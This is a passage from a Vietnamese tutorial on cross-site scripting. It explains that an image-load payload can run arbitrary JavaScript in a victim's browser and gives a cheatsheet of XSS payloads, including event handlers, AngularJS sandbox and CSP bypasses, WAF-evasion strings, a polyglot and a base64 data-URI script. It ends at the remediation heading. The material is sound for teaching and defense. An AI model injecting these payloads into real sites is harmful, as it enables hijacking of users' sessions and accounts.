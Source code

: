 Lúc này khi ảnh load thì hàm alert(1) sẽ được gọi, ta có thể thay hàm alert thành bất kì đoạn code javascript nào để thực thi trên trình duyệt nạn nhân

![](images/11.png)

Như vậy chỉ cần nạn nhân click vào đường link tương tự như vậy thì hacker sẽ thực thi được script trên trình duyệt máy nạn nhân

## V) Một số Cheatsheet XSS

|Loại|	Mã|	Giải thích|
|Event handlers that do not require user interaction|	`<body onload=alert(1)>`|	Thực thi khi elenment được tải|
|Event handlers that do require user interaction|	`<xss onclick="alert(1)">test</xss>`|	Thực thi khi elenment được click|
|Restricted characters|	`<script>onerror=alert;throw 1</script>`|	Sử dụng khi không cho phép dấu “(“|
|Frameworks|	`<xss class=progress-bar-animated onanimationstart=alert(1)>`|	Thực thi khi bắt đầu animation bootsrtap |
|Protocols|	`<iframe src="javascript:alert(1)">`|	Thực thi khi sử dụng iframe javascript|
|Other useful attributes|	`<form action="javascript:alert(1)"><input type=submit id=x></form><label for=x>XSS</label>`|	Thực thi khi nhấn submit|
|Special tags|	`<meta http-equiv="refresh" content="0; url=//portswigger-labs.net">`|	Chuyển hướng đến một miền khác|
|Encoding|	`<a href="javascript:x='%27-alert(1)-%27';">XSS</a>`|	Bypass URL encoding|
|Obfuscation|	`<script src=data:text/javascript;base64,YWxlcnQoMSk=></script>`|	Data protocol inside script src with base64|
|Client-side template injection|	`{ {constructor.constructor('alert(1)')()} }` |	Sử dụng trong vul.js|
|AngularJS sandbox escapes reflected|	`{ {constructor.constructor('alert(1)')()} }` |	Sử dụng trong angular.js|
|DOM based AngularJS sandbox escapes|	`constructor.constructor('alert(1)')()`|	Tấn công Dome based Angular.js|
|AngularJS CSP bypasses	|`<input autofocus ng-focus="$event.path\|orderBy:'[].constructor.from([1],alert)'">`	|Dùng trong AngularJS CSP bypasses|
|Scriptless attacks|	`<link rel=stylesheet href="//evil?`	|Link href stylesheet độc hại
|Polyglots|	`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`|	Polyglot payload 1|
|WAF bypass global objects|	`';window['ale'+'rt'](window['doc'+'ument']['dom'+'ain']);//`	|XSS into a JavaScript string: string concatenation (window)|
|Content types|	`<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>`|	Sử dụng cho xss với X-Content-Type-Options |
|Response content types|	`<script>alert(document.domain)</script>`|	Sử dụng khi có thể nhúng vào content-type header|
|Prototype pollution	|`<script>Object.prototype.innerHTML = '<img/src/onerror=alert(1)>';</script>`	|Sử dụng cho Embedded Video|
|Classic vectors (XSS crypt)|	`<img src="javascript:alert(1)">`	|Nhúng vào image source |

## VI) Khắc phục XSS
